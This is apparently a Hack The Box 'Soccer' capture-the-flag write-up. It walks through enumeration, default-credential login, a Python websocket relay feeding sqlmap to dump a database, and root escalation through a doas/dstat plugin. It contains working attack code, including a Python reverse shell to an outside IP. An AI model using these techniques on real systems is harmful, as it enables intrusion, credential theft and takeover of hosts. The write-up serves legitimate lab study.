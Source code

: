### Enumeration

By nmap port scan we have some open tcp and udp ports
```shell
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http         nginx 1.18.0 (Ubuntu)
1026/tcp filtered LSA-or-nterm
9091/tcp open  xmltec-xmlmail
19/udp    closed chargen
1214/udp  closed fasttrack
19374/udp closed unknown
20380/udp closed unknown
32385/udp closed unknown
57843/udp closed unknown
```

![](/Hack-The-Box/soccer/img/1.png)

During directory scanning we found some endpoints where one is a login page to `tiny file manager` and the second one is a upload page which is forbidden
```shell
200      GET      147l      526w     6917c http://soccer.htb/
301      GET        7l       12w      178c http://soccer.htb/tiny => http://soccer.htb/tiny/
301      GET        7l       12w      178c http://soccer.htb/tiny/uploads => http://soccer.htb/tiny/uploads/
```
![](/Hack-The-Box/soccer/img/2.png)

So by using the defaults credentials from github page; we successfully login and found a upload function. so navigating to `/tiny/uploads` and uploaded our revshell payload and recived a shell as `www-data`

Since the site is running on `nginx` we just navigate to `/etc/nginx/site-availabes` and found a subdomain running on the server
![](/Hack-The-Box/soccer/img/3.png)

![](/Hack-The-Box/soccer/img/4.png)

we signin  and login to the account a found a page to check our tickets. 
![](/Hack-The-Box/soccer/img/5.png)

while checking the html source page we found a websocket connection running on the subdomain
```html
 <script>
        var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
        
        var btn = document.getElementById('btn');
        var input = document.getElementById('id');
```

Since there is nothing else that caught my eye I digged around and found out that we probably could try to find a blind sql injection like described on
```url
https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html
```

so crafting the script 
```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091/"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```
Now using sqlmap we have got password for user player
```c
sqlmap -u "http://localhost:8081/?id=96680*" --batch --dbs 
sqlmap -u "http://localhost:8081/?id=96680*" --batch -D soccer_db --tables --dbs
sqlmap -u "http://localhost:8081/?id=96680*" --batch -D soccer_db -T accounts  --dump
```

### PRIVILLAGE ESCLATION

when executing 
`find / -type d -writable 2>/dev/null | grep -v -e '^/proc' -e '/run'`
we found a file named dstat in `/usr/local/share`

and while running 
`find / -user root -perm -4000`
we found `/usr/local/bin/doas`
```c#
doas is a command on OpenBSD systems that allows users to execute commands as other users, similar to the sudo command on other Unix-like operating systems. It stands for "do as", as in "perform the following command as the specified user". doas is configured through the /etc/doas.conf file, which specifies which users are allowed to use doas and which commands they are allowed to execute.
```
```python
player@soccer:/usr/local/etc$ cat doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

Now we are abusing  dstat pligins in order to become root user
 create a file named `dstat_bq.py` with our rev_shell payload
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",3636));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")

```
upload the file to our target machine using `wget`
copy the file into `/usr/local/share/dstat` and change the permission of the file
check whether our malcious plugin have been loaded
` doas /usr/bin/dstat --list`
![](/Hack-The-Box/soccer/img/6.png)

Open a netcat listner and execute the following command
`doas -u root /usr/bin/dstat --bq`
![](/Hack-The-Box/soccer/img/7.png)
